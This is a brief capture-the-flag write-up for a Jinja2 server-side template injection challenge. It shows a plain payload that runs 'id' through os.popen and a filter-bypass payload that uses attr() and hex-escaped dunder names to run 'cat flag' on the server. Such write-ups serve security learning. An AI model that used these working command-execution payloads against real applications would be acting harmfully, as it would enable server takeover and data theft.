

# SSTI2

This challenge is similar to `SSTI1`. However, there is a validation to prevent command execution.
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```



When I use a bypass technique, I can read the flag.
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

## References
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
